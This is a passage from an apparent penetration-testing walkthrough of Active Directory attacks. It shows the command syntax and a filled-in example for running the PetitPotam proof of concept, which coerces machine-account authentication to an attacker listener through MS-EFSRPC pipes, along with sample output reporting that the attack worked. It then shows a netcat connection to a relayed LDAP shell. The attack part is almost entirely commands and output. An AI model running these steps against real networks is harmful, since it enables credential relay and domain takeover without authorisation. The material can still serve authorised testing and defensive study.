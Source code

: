 #### 4. Run PetitPotam (In Local Linux)

```console
python3 PetitPotam.py -u '<USER>@<DOMAIN>' -hashes :<HASH> <SOCAT_HOSTNAME>@8090/test <SOCAT_LISTENER_IP> -pipe all
```

```console {class="sample-code"}
python3 PetitPotam.py -u "test.user@example.com" -hashes ":7ddf32e17a6ac5ce04a8ecbf782ca509" ms01@8090/test 192.168.100.101 -pipe all

                                                                                               
              ___            _        _      _        ___            _                     
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                         
              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)
      
                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN



Trying pipe efsr
[-] Connecting to ncacn_np:192.168.100.101[\PIPE\efsrpc]
Something went wrong, check error status => SMB SessionError: STATUS_OBJECT_NAME_NOT_FOUND(The object name is not found.)
Trying pipe lsarpc
[-] Connecting to ncacn_np:192.168.100.101[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
---[SNIP]---
```

<small>*Ref: [PetitPotam](https://github.com/topotam/PetitPotam)*</small>

#### 5. Connect to LDAP Shell (In Local Linux)

```console
rlwrap nc 127.0.0.1 11000
```

```console {class="sample-code"}
$ rlwrap nc 127.0.0.1 11000
Type help for list of commands

# 
```
